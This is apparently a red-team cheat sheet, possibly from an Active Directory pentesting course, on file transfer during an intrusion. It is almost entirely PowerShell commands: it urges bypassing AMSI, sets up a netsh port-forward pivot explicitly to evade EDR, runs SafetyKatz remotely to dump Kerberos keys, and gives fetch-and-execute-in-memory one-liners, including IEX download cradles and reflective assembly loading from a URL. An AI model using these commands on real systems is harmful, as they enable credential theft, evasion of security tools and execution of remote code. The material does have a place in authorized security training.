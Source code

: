 # File transfer

{% hint style="danger" %}
It's suggested to bypass AMSI first
{% endhint %}

### Copy from inside the domain

```powershell
echo F | xcopy <PATH> \\<R MACHINE>\<R PATH>
```

```powershell
Copy-Item <PATH> \\<MACCHINA>\<R PATH>
```

### **Avoid EDR detection while downloading**

Do a portforwarding on a pivot

{% code overflow="wrap" %}
```powershell
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=<IP>"
```
{% endcode %}

Download and use program

{% code overflow="wrap" %}
```powershell
$null | winrs -r:<MACCHINA> C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```
{% endcode %}

### Download a file

```powershell
iwr <URL> -OutFile <PATH>
```

### Download a file and execute in memory

#### Powershell script

```
iex (iwr $url -UseBasicParsing)
```

{% code overflow="wrap" %}
```PowerShell
(new-object system.net.webclient).downloadstring('$url')|IEX
```
{% endcode %}

#### Exe file

{% code overflow="wrap" %}
```powershell

$data=(New-Object System.Net.WebClient).DownloadData('<url>');

$asm = [System.Reflection.Assembly]::Load([byte[]]$data);

$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);

[<name>.Program]::Main("");[Console]::SetOut($out);$sWriter.ToString()

```
{% endcode %}
